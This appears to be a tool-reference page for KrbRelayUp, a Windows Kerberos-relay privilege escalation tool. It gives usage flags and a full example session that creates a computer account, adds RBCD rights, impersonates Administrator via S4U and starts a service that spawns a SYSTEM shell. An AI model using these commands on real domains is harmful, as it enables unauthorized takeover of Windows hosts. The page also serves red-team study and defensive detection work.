

## KrbRelayUp

### Installation

Build the binary yourself or use the pre-compiled binary below.

{}

### Usage

```plain
KrbRelayUp.exe relay -d FQDN -cn COMPUTER [-c] [-cp PASSWORD | -ch NTHASH]
```

### Flags

```plain
KrbRelayUp - Relaying you to SYSTEM

RELAY:
Usage: KrbRelayUp.exe relay -d FQDN -cn COMPUTERNAME [-c] [-cp PASSWORD | -ch NTHASH]

    -d  (--Domain)                   FQDN of domain.
    -c  (--CreateNewComputerAccount)    Create new computer account for RBCD. Will use the current authenticated user.
    -cn (--ComputerName)             Name of attacker owned computer account for RBCD. (deafult=KRBRELAYUP$ [if -c is enabled])
    -cp (--ComputerPassword)         Password of computer account for RBCD. (deafult=RANDOM [if -c is enabled])
    -ch (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (Optional)
    -p  (--Port)                     Port for Com Server (default=12345)

SPAWN:
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

    -d  (--Domain)                   FQDN of domain.
    -cn (--ComputerName)             Name of attacker owned computer account for RBCD. (deafult=KRBRELAYUP$ [if -c is enabled])
    -cp (--ComputerPassword)         Password of computer account for RBCD. (deafult=RANDOM [if -c is enabled])
    -ch (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (Optional)
    -i  (--Impersonate)              User to impersonate. should be a local admininstrator in the target computer. (default=Administrator)
    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM

KRBSCM:
Usage: KrbRelayUp.exe krbscm <-s SERVICENAME> <-sc SERVICECOMMANDLINE>

    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTE
```

### Examples

```plain
PS C:\Users\johndo\Desktop> .\KrbRelayUp.exe relay -Domain offsec.nl -CreateNewComputerAccount -ComputerName receptie-pc$ -ComputerPassword Welkom1234
KrbRelayUp - Relaying you to SYSTEM


[+] Computer account "receptie-pc$" added with password "Welkom1234"
[+] Rewriting function table
[+] Rewriting PEB
[+] Init COM server
[+] Register COM server
[+] Forcing SYSTEM authentication
[+] Got Krb Auth from NT/SYSTEM. Relying to LDAP now...
[+] LDAP session established
[+] RBCD rights added successfully
[+] Run the spawn method for SYSTEM shell:
    ./KrbRelayUp spawn -d offsec.nl -cn receptie-pc$ -cp Welkom1234

PS C:\Users\johndo\Desktop> .\KrbRelayUp.exe spawn -d offsec.nl -cn receptie-pc$ -cp Welkom1234
KrbRelayUp - Relaying you to SYSTEM

[+] TGT request successful!
[+] Ticket successfully imported!
[+] Building S4U2self
[*] Using domain controller: SRV2022.offsec.nl (10.20.30.11)
[+] Sending S4U2self request to 10.20.30.11:88
[+] S4U2self success!
[+] Got a TGS for 'Administrator' to 'receptie-pc$@OFFSEC.NL'
[+] Impersonating user 'Administrator' to target SPN 'HOST/WIN10'
[+] Building S4U2proxy request for service: 'HOST/WIN10'
[*] Using domain controller: SRV2022.offsec.nl (10.20.30.11)
[+] Sending S4U2proxy request to domain controller 10.20.30.11:88
[+] S4U2proxy success!
[+] Ticket successfully imported!
[+] Using ticket to connect to Service Manger
[+] AcquireCredentialsHandleHook called for package N
[+] Changing to Kerberos package
[+] InitializeSecurityContextHook called for target H
[+] InitializeSecurityContext status = 0x00090312
[+] InitializeSecurityContextHook called for target H
[+] InitializeSecurityContext status = 0x00000000
[+] KrbSCM Service created
[+] KrbSCM Service started
[+] Clean-up done
```



### URL list

* [Github.com - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
